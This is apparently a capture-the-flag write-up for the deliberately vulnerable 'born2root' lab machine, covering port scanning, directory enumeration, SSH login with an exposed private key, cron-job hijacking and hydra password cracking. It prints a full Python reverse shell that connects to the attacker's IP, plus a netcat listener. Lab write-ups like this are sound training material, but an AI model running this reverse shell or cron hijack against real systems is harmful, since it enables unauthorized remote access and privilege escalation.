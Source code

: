 # Reconnaisance

Okay, here we go. Scanning all of the ports revealed the following:
`nmap -p- -T4 -Pn -oN nmap/initial born2root`
```
Nmap scan report for born2root (192.168.1.7)
Host is up (0.034s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
48777/tcp open  unknown
```
Let's have a closer look at these.
`nmap -p 111,48777,22,80 -sC -sV -O -T4 -Pn -oN nmap/all_ports born2root`
```
Nmap scan report for born2root (192.168.1.7)
Host is up (0.0072s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 2 disallowed entries
|_/wordpress-blog /files
|_http-title:  Secretsec Company
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34283/udp   status
|   100024  1          43795/udp6  status
|   100024  1          48777/tcp   status
|_  100024  1          53482/tcp6  status
48777/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:FB:C3:3C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The report reveals something about the service running at port `80`. And
apparently, the page at `/wordpress-blog` contained all the secrets no just
kidding it just had the picture of a troll face.
However, the home page does give me a few names under the "About Us" header:
```
Martin N
Hadi M
Jimmy S
```
Furthermore, there's is also a "Contact Us" header with the
"martin@secretsec.com" email address. Could potentially be useful.

Perhaps, enumeration is the key here.

# Enumeration
Let's just go full `gobuster` on this thing.
```
gobuster dir \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-u http://born2root -t 40
```
And `gobuster` immediately found an extra `/icons` directory that I hadn't known
about. Loading up that location led me to find a file named `VDSoyuAXiO.txt`.
Pretty weird name, but it apparently contained an RSA private key.

# Getting In

The email address we saw earlier had been a hint for the username. Now all we
need to do is use that key to login as the `martin` user.
`ssh -o PubkeyAcceptedAlgorithms=+ssh-rsa -i id_rsa -l martin born2root`

And it asked me for another password.

```
READY TO ACCESS THE SECRET LAB ?

secret password :
```

The fact that it asks for a **secret** password tells my gut that it's some
silly common password. I just tried hitting the Enter key and apparently that
gave me a shell. I guess the password prompt was just a gimmick.

# Privilege Escalation

After logging in, I decided to check a few files that I could find.

```
martin@debian:~$ cat .bash_history
nano /var/tmp/login.py
nano .bashrc
ls
ls -ah
sudo su
exit
nano /var/tmp/login.py
clear
nano /var/tmp/login.py
su root
ls
su root
clear
su root
clear
cd /var/www/html/icons/
ls
mv VdXAsOKisAOIO.txt.png key.txt.png
su root
su roo
su root
exit
ls
su root
exit
```

I checked the `/var/tmp/login.py` file and it had the "secret passwords" in it
and apparently no matter what you typed, the password would've been valid.

I checked to see if there were any interesting configuration files. I saw the
crontab entries and decided to have a look.

`cat /etc/crontab`

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5   * * * *   jimmy   python /tmp/sekurity.py
```

And interestingly a cronjob had been there. I just fetched a reverse shell from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

```python
import socket
import os
import pty


# create a socket
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);

# use that socket to connect to my attacker machine
s.connect(("192.168.49.154",1234));

# duplicate the socket's file descriptor to be stdin, stdout and stderr
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

# spawn a shell
pty.spawn("/bin/sh")
```

Put that in `/tmp/sekurity.py` and now I just have to listen to incoming
connections with `netcat`:

`nc -lvp 1234`

I get a reverse shell eventually and now I am the user `jimmy`. I see a SUID
binary named `networker`. I run it and get some output:
```
*** Networker 2.0 ***
eth0      Link encap:Ethernet  HWaddr 00:50:56:ba:44:9c
          inet addr:192.168.154.49  Bcast:192.168.154.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feba:449c/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1305 errors:0 dropped:0 overruns:0 frame:0
          TX packets:946 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:122788 (119.9 KiB)  TX bytes:854022 (834.0 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:5 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:448 (448.0 B)  TX bytes:448 (448.0 B)

PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.018 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.018/0.018/0.018/0.000 ms
Done
echo linux tool version 5
```

After failing to use that binary to my advantages, I ultimately decided to give
up. I noticed there was another user on the system, `hadi`, perhaps I should try
to crack his password. I know I'm supposed to do it using `hydra` but I will
require a smaller wordlist since something like `rockyou.txt` is going to take
forever. I decided to check if the `rockyou.txt` wordlist had any passwords with
the word `hadi` in it and apparently there were some. I decided to try my luck
with those matched entries.
![Hydra](hydra.png)

And success!

Although I didn't expect it to, but it did work. Now I can ssh
login as `hadi` on that machine. I tried running `su` with the same password and
apparently it worked as well. So that's how the root flag was discovered. A lot
of rabbit holes, but apparently enumeration _was_ the key here.
